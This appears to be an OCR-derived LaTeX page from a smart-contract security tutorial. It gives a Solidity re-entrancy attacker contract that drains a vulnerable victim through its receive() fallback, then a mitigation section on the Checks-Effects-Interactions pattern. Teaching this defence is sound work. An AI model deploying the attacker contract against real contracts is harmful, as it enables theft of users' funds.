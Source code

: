 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy Attacker Contract]
  contract Attacker {
      Victim victim;
      uint256 private initialDeposit;
  
      constructor(address _vulnerable) {
          victim = Victim(_vulnerable);
      }
  
      function attack() public payable {
          initialDeposit = msg.value;
          victim.deposit{value: msg.value}();
          victim.withdraw();
      }
  
      receive() external payable {
          if (address(victim).balance > initialDeposit) {
              victim.withdraw();
          }
      }
  }
\end{lstlisting}

\subsection{Re-Entrancy Mitigations}

\subsubsection*{Checks-Effects-Interactions Pattern}

It is recommended to follow CEI pattern in your contracts. CEI stands for:

\begin{enumerate}
    \item \textbf{Check} conditions
    \item \textbf{Effects} update internal state
    \item \textbf{Interactions} perform external calls
\end{enumerate}

\begin{lstlisting}[language=Solidity]
function withdraw() public {
    // 1. Checks
    uint amount = balances[msg.sender];
    require(amount > 0, "Nothing to withdraw");

    // 2. Effects
    balances[msg.sender] = 0;

    // 3. Interactions
    (bool success, ) = payable(msg.sender).call{value: amount}("");
    require(success, "Transfer failed");
}
\end{lstlisting}

\noindent
By setting the balance to zero before sending Ether, you prevent the attacker from withdrawing more than once during the same call flow.
\end{document}
